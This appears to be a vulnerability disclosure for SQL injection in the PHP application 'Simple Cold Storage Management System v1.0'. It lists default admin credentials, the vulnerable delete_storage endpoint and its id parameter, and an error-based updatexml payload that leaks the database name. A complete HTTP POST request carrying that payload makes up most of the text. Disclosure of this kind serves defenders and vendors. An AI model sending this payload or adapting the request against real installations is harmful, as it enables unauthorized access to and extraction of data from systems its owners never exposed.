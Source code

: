 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 0.0

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/classes/Master.php?f=delete_storage

Vulnerability location: /csms/classes/Master.php?f=delete_storage, id

dbname =csms_db,length=7

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /csms/classes/Master.php?f=delete_storage HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/csms/admin/?page=bookings
Content-Length: 65
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191015354-9c228c4f-95f5-4d25-aba7-44b5fa6f6758.png)
